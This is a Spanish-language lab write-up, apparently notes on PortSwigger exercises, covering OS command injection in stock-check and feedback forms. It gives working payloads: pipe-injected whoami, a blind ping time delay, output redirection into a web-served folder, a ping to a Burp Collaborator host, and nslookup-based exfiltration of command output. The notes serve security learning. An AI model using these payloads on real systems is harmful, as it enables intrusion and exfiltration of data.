 # OS command injection


# OS command injection, simple case

El caso mas simple en donde se consulta el stock se le agrega el | y el comando

```
productId=1&storeId=1|whoami

```

# Blind OS command injection with time delays

En este caso se inyectan comandos en Submmit feedback se usa de nueva cuenta el pipe |

```
csrf=fTYXLcrD0AxoStj3Bo0z58nhjs22Oep5&name=Masa&email=masa%40gmail.com||ping+-c+10+127.0.0.1||&subject=abcd1234&message=Comment
```

# Blind OS command injection with output redirection

Para este laboratorio no se refleja el comanod inyectado en el email de submitt feedback sin embargo se puede redireccionar a una carpeta con 
permisos de escritura /var/wwww/images( desde donde se cargan las imagenes) si damos clic derecho en una imagen y le ponemos cargar en una pestaña
nos da image?filename=image.jpg entonces si se cargan de esa ruta podriamos hacer algo como image?filename=out.txt.

```
csrf=Kfbe6pN4ThGKonJGCUZmmSS2tzjh6CF0&name=Masa&email=masa%40gmail.com|whoami>out4.txt||&subject=abcd1234&message=Comment

```
NO olvides que si no agregas los 2 || al final no se porque pero no sirve.

# Blind OS command injection with out-of-band interaction

Para este laboratorio se utilizo el Burp colaborator Client de nueva cuenta la vulnerabilidad reside en el Submit feedback y cuando se genera un 
 DNS lookup to Burp Collaborator es cuando se resuelve el lab

```
csrf=ItkBikPD69urSsgTDkHVZmvP8g1NiQj8&name=Masa&email=masa%40gmail.com|ping woojq6yqontbtnxg748e0indw42wql.oastify.com||&subject=abcd1234&message=Comment
```

# Blind OS command injection with out-of-band data exfiltration

De este laboratorio hay varias cosas a destacar primero se recuerda que hace la herramienta nslookup. Despues se utilizan las comillas invertidas para ejecutar un comando es muy parecido a $() solo que no crea una subshell. para resolver este lab se hizo uso del Burp colaborator y ademas se usa dobel ||

> Muy práctica y fácil de usar, cuya función básica es encontrar la dirección IP de un equipo determinado o realizar una búsqueda DNS inversa (es decir, encontrar el nombre de dominio de una determinada dirección IP).


```

email=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||

```












